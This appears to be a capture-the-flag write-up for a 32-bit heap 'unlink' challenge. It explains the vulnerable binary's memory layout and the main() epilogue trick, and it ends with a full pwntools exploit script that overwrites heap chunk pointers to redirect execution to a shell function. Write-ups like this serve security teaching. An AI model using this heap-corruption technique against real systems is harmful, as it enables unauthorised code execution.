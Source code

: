 ### unlink
first note that `unlink` is 32 bit elf:
```
unlink@ubuntu:~$ ./unlink 
here is stack address leak: 0xffe95234
here is heap address leak: 0x8468410
now that you have leaks, get shell!
blah
unlink@ubuntu:~$ readelf -h unlink
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x80483f0
  Start of program headers:          52 (bytes into file)
  Start of section headers:          6300 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         31
  Section header string table index: 28

```
So It should be compiled with the -m32 flag, Then I added memset instructions to be able to understand the memory layout of the heap:
```
 memset(malloc(1024),0x12,1024);
  OBJ* A = (OBJ*)malloc(sizeof(OBJ));
  memset(A,0x34,sizeof(OBJ));
  OBJ* B = (OBJ*)malloc(sizeof(OBJ));
  memset(B,0x56,sizeof(OBJ));
  OBJ* C = (OBJ*)malloc(sizeof(OBJ));
  memset(C,0x78,sizeof(OBJ));
```

I can scp the `unlink` binary from the server.

This one was tough,  
The `system@plt` and the `shell` are both in non writable sections so
it is impossible to directly use them. After enough frustration I read a hint that
I have to look at the code right before returning from main.
there is a code there:
```
80485ff:       8b 4d fc                mov    -0x4(%ebp),%ecx
8048602:       c9                      leave  
8048603:       8d 61 fc                lea    -0x4(%ecx),%esp
8048606:       c3                      ret    
```
So `$ecx` is loaded to have the value from the stack and then dereferenced.
So the idea is to choose an address from the heap to contain the address of `shell`
and then another address from the heap will point to it.
One improtant thing to note is that the `malloc` on the server might behave different
than the local `malloc`. For example my `malloc` had 4 bytes separation between A and B while the server's `malloc` has 8 . So the offsets calculation is different. 

My solution is overwriting `B` as follows:
```
[fd (points to B->buf+4)][bk (points to $ebp-4)]
[buf[0:4] points to shell func][buf[4:8] points to buf[0:4]]
```
It is implemented in the script `solution.py`. The script works,
but note that it has `MALLOC_TAG_SZ = 16` which is for my own malloc.
For the server it should be `MALLOC_TAG_SZ = 8`.
Also, for some reason, after getting the shell, when I run `ls` it shows nothing
only when I run `ls` again it show `ls`'s output. 

Here is the intended solution:
```
cat intended_solution.txt
from pwn import *
context.arch = 'i386'	# i386 / arm
r = process(['/home/unlink/unlink'])
leak = r.recvuntil('shell!\n')
stack = int(leak.split('leak: 0x')[1][:8], 16)
heap = int(leak.split('leak: 0x')[2][:8], 16)
shell = 0x80484eb
payload = pack(shell)		# heap + 8  (new ret addr)
payload += pack(heap + 12)	# heap + 12 (this -4 becomes ESP at ret)
payload += '3333'		# heap + 16
payload += '4444'
payload += pack(stack - 0x20)	# eax. (address of old ebp of unlink) -4
payload += pack(heap + 16)	# edx.
r.sendline( payload )
r.interactive()
```

